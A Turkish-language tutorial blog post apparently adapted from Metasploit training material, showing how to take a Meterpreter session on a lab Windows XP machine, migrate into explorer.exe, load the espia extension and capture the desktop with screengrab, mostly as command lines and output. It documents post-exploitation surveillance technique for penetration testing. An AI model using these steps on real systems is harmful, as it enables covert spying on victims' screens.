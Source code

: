 ```yaml
---
draft: false

title:  'MSF Ekran Yakalama'
date: '2017-06-05T13:38:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Meterpreter shell oturumunun sağladığı imkanlardan bir tanesi de hedef bilgisayarın Masaüstü görüntüsünü kaydedebilmektir. Bu yöntemle Masaüstü görüntüsü alma, genellikle pentest işlemlerinde ispat olarak kullanılır.' 
 
url:  /tr/msf-ekran-yakalama/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Ekran Yakalama



Meterpreter shell oturumunun sağladığı imkanlardan bir tanesi de hedef bilgisayarın Masaüstü görüntüsünü kaydedebilmektir. Bu yöntemle Masaüstü görüntüsü alma, genellikle pentest işlemlerinde ispat olarak kullanılır.



Meterpreter oturum açtığınızda, oturumu `explorer.exe` prosesine taşınmalısınız. Aşağıdaki örnekte öncelikle sistemde çalışan programlar kontrol edilmektedir.



Hedef bilgisayarda meterpreter oturum açtığınızı farz ediyoruz. Öncelikle çalışan işlemlere bakalım. Bunun için `ps` komutunu kullanabilirsiniz.


```bash
**[*********]** Started bind handler
**[*********]** Trying target Windows XP SP2 - English...
**[*********]** Sending stage **(**719360 bytes**)**
**[*********]** Meterpreter session 1 opened **(**192.168.1.101:34117 -> 192.168.1.104:4444**)**

meterpreter **>** ps

Process list
**============**

    PID   Name                 Path
    ---   ----                 ----
    180   notepad.exe          C:\WINDOWS\system32 otepad.exe
    248   snmp.exe             C:\WINDOWS\System32\snmp.exe
    260   Explorer.EXE         C:\WINDOWS\Explorer.EXE
    284   surgemail.exe        c:\surgemail\surgemail.exe
    332   VMwareService.exe    C:\Program Files\VMware\VMware Tools\VMwareService.exe
    612   VMwareTray.exe       C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    620   VMwareUser.exe       C:\Program Files\VMware\VMware Tools\VMwareUser.exe
    648   ctfmon.exe           C:\WINDOWS\system32\ctfmon.exe
    664   GrooveMonitor.exe    C:\Program Files\Microsoft Office\Office12\GrooveMonitor.exe
    728   WZCSLDR2.exe         C:\Program Files\ANI\ANIWZCS2 Service\WZCSLDR2.exe
    736   jusched.exe          C:\Program Files\Java\jre6\b**in**\jusched.exe
    756   msmsgs.exe           C:\Program Files\Messenger\msmsgs.exe
    816   smss.exe             \SystemRoot\System32\smss.exe
    832   alg.exe              C:\WINDOWS\System32\alg.exe
    904   csrss.exe            \??\C:\WINDOWS\system32\csrss.exe
    928   winlogon.exe         \??\C:\WINDOWS\system32\winlogon.exe
    972   services.exe         C:\WINDOWS\system32\services.exe
    984   lsass.exe            C:\WINDOWS\system32\lsass.exe
    1152  vmacthlp.exe         C:\Program Files\VMware\VMware Tools\vmacthlp.exe
    1164  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1276  nwauth.exe           c:\surgemail wauth.exe
    1296  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1404  svchost.exe          C:\WINDOWS\System32\svchost.exe
    1500  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1652  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1796  spoolsv.exe          C:\WINDOWS\system32\spoolsv.exe
    1912  3proxy.exe           C:\3proxy\b**in**\3proxy.exe
    2024  jqs.exe              C:\Program Files\Java\jre6\b**in**\jqs.exe
    2188  swatch.exe           c:\surgemail\swatch.exe
    2444  iexplore.exe         C:\Program Files\Internet Explorer\iexplore.exe
    3004  cmd.exe              C:\WINDOWS\system32\cmd.exe
```



Örnek çıktıda görüldüğü gibi `explorer.exe` 260 PID numarasıyla çalışmaktadır. `migrate` komutuyla Meterpreter oturumunu `explorer.exe` içine taşıyalım.


```bash
meterpreter **>** migrate 260
**[*********]** Migrating to 260...
**[*********]** Migration completed successfully.
```



Ardından `espia` eklentisini aktif hale getirelim.


```bash
meterpreter **>** use espia
Loading extension espia...success.
```



`screengrab` komutuyla hedef bilgisayarın Masaüstü görüntüsünü kaydedelim.


```bash
meterpreter **>** screengrab
Screenshot saved to: /root/nYdRUppb.jpeg
meterpreter **>**
```



Gördüğünüz gibi Masaüstü resmi yerel bilgisayarımıza kaydedildi. Bu işlemi yaparken `explorer.exe` veya benzeri şekilde klasör ve dosyalar üzerinde işlem yapabilen bir programa geçiş yapmanız önemlidir. Aksi takdirde `screengrab` komutu çalışmayabilir.
